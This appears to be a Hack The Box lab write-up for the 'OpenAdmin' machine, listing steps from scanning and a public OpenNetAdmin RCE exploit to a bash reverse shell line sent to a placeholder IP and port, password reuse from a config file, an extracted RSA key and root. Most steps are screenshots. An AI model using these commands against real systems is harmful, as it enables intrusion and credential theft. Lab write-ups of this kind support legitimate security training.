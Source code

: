 ```yaml
---
title: OpenAdmin
layout: post
author: Bit Criminals Team
date: 2021-07-27 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://app.hackthebox.eu/machine/OpenAdmin
---
```


## STEP_1 ==> NMAP SCAN

![](/images/whitefang/OpenAdmin_nmap.png) 


## STEP_2 ==> GOBUSTER

![](/images/whitefang/OpenAdmin_gobuster.png) 

  
## STEP_3 ==> OPEN /music

>http://10.10.10.171/music

![](/images/whitefang/OpenAdmin_music.png) 

![](/images/whitefang/OpenAdmin_ona.png) 


## STEP_4 ==> SEARCHING THE EXPLOIT

![](/images/whitefang/OpenAdmin_searchsploit.png)

>https://github.com/amriunix/ona-rce


 ## STEP_5 ==> GETTING SHELL

```bash
python3 ona-rce.py check http://10.10.10.171/ona/
```

![](/images/whitefang/OpenAdmin_revshell.png)

Sending reverse shell on our IP:
>/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'

![](/images/whitefang/OpenAdmin_listen.png)


## STEP_6 ==> GETTING USER PASSWORD

Opening /var/www/html/ona/local/config//database_settings.inc.php

![](/images/whitefang/OpenAdmin_password.png)

Trying same password to ssh login on user - jimmy


## STEP_7 ==> GETTING RSA KEY

Opening  /var/www/internal/main.php

![](/images/whitefang/OpenAdmin_jimmy.png)

Getting RSA key

```bash
curl http://127.0.0.1:52846/main.php
```
![](/images/whitefang/OpenAdmin_rsa.png)


## STEP_8 ==> CRACKING RSA KEY

![](/images/whitefang/OpenAdmin_rsacrack.png)


## STEP_9 ==> SSH LOGIN (joanna)

![](/images/whitefang/OpenAdmin_vulroot.png)


## STEP_10 ==> ROOT

![](/images/whitefang/OpenAdmin_nano.png)

![](/images/whitefang/OpenAdmin_flag.png)

